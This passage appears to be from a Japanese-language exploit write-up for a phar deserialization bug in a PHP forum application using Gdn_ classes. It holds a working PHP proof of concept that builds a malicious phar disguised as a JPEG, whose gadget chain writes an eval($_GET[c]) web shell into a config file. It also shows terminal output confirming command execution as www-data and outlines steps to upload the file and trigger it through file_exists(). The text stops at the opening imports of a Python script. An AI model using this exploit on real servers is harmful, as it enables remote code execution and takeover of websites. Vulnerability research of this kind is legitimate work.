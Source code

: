 ```php
3. We run the poc-stage-2.py which will trigger the bug

```
saturn:~ mr_me$ ./poc-stage-2.py.py 172.16.175.143 admin:admin123
(+) targeting: http://172.16.175.143
(+) logged in!
(+) uploaded phar!
(+) leaked phar name!
(+) triggered a write!
(+) shell at: http://172.16.175.143/?c=phpinfo();

saturn:~ mr_me$ curl -sSG "http://172.16.175.143/?c=system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, on the victim box:

```
steven@pluto:/var/www/html/conf$ cat constants.php 
<?php if (!defined('APPLICATION')) exit();
$a=eval($_GET[c]);//[''] = '';

// Last edited by admin (172.16.175.1)2018-09-16 00:59:01steven@pluto:/var/www/html/conf$
```
*/

// custom pop chain, as used in other exploits
class Gdn_ConfigurationSource{
    public function __construct(){
        $this->Type = "file";
        $this->Source = "/var/www/html/conf/constants.php";
        $this->Group = 'a=eval($_GET[c]);//';
        $this->Settings[""] = "";       
        $this->Dirty = true;
        $this->ClassName = "Gdn_ConfigurationSource";
    }
}
class Gdn_Configuration {
    public $sources = [];
    public function __construct(){
        $this->sources['si'] = new Gdn_ConfigurationSource();
    }
}

// create new Phar
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add our object as meta data
$phar->setMetadata(new Gdn_Configuration());
$phar->stopBuffering();

// we rename it now
rename("poc.phar", "poc.jpg");
```
次にこのファイルをアップロードして、何らかのリクエストで`file_exists()`の中にこのアップされたファイルへのパスを挿入する。   
まずCSRFトークンを取得する。以降の手順ではすべてリクエストにCSRFトークンがないとダメっぽいので取得しておく。   
次に`jpg`に偽装した`phar`ファイルをアップロードする。   
次にアップした`phar`ファイルの名前を取得する。`attack.jpg`とかでアップしても実際にはタイムスタンプとかランダムな名前で保存されることになるので。   
次に得られたファイル名で`phar://.../???.jpg`のパスを作成してリクエストして`file_exitst()`の中にInjectする！   
```python
import re
import sys
```